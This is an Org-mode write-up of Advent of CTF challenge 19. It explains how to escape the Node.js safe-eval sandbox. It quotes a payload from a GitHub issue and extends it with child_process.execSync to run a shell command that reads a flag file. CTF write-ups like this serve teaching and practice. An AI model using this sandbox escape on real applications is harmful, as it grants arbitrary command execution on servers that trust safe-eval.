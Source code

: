 #+TITLE: Advent of CTF - Challenge 19
#+SUBTITLE: "Safe?"

* Challenge

This challenge builds on the previous one. The elves upgraded the application with a module to make it safe again.

What you will learn:

- Bypassing the =safe-eval= module

* Solution
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-19/index_att
:END:

The introduction of this challenge is in [[./../challenge-18/index.org]]. It starts the same, but you will notice that you can not call any function or standard Javascript objects. Entering any /wrong/ data will give an error message, clearly showing the use of the =safe-eval= module. 

#+CAPTION: Identify safe-eval
[[file:index_att/identify-safe-eval.png]]

Looking at the [[https://github.com/hacksparrow/safe-eval][Github]] page for the project you might notice a currently *open* [[https://github.com/hacksparrow/safe-eval/issues/16#issuecomment-554301596][issue]] that states that the safe-eval can still be escaped.

[[file:index_att/github-20201220.png]]

The issue describes a payload that can be used to "exploit" the issue. In this case it will only return a process, but not do anything yet.

#+CAPTION: The payload from the issue
#+begin_src javascript
(
    delete(this.constructor.constructor),delete(this.constructor),
    this.constructor.constructor("return process")()
)
#+end_src

Building on it and with some NodeJS payload knowledge/research a new payload can be constructed. 

#+CAPTION: Building on the payload
#+begin_src javascript
(
    delete(this.constructor.constructor),
    delete(this.constructor), 
    this.constructor.constructor('return process')()
        .mainModule.require('child_process')
        .execSync('cat flag.txt').toString()
)
#+end_src

When you have your points, don't forget to grab the badge!

[[./index_att/badge.png]]

Go back to the [[../../../index.org][homepage]].
